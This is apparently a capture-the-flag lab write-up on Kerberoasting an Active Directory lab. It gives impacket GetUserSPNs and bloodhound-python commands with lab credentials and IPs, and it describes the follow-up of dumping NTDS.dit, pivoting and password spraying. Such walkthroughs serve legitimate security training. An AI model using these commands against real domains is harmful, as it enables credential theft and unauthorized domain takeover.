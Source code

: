 > Need to find kerberoastable service accounts
---
> If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit
---
> If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts, Password reuse is one among the many vulnerability that is common in any network
---

#### Kerberoasting With impackets

```bash
# isntall impackets (https://github.com/SecureAuthCorp/impacket)
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]
└─$ GetUserSPNs.py -dc-ip 10.10.129.194 controller.local/Machine1:Password1 -request -outputfile impackets-userspns.out

```

#### Kerberoasting With Bloodhound

- Kerberosting, a popular attack in the kerberos protocol where the user requests a service ticket for any ticket with a registered SPN which can be cracked to obtain the password of the service account
- If a service has a registered SPN, then its kerberostable
- Bloodhound is highly suggested to find accounts that are kerberostable

```bash
# bloodhound.py
bloodhound-python -u Machine1 -p Password1 -d controller.local -ns 10.10.22.147 -c all
# many json files will be loaded
# neo4j installation
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable 4.2' | sudo tee -a /etc/apt/sources.list.d/neo4j.list
sudo apt-get update
apt list -a neo4j
sudo apt-get install neo4j=1:4.2.3
# start the neo4j service
sudo neo4j console
# once you start the neo4j service
# http://localhost:7474, provide the username and passowrd neo4j:neo4j
# set your new password ---> (1)

# download bloodhound (https://github.com/BloodHoundAD/BloodHound/releases/tag/4.0.2)
# start the bloodhound
./Bloodhound
# login credentials neo4j:{password you set in (1)}
# now drag and drop the json files to the bloodhound instance
```

- Once the json files loaded into the bloodhound, search for the user machine1

![user](bh-user.png)
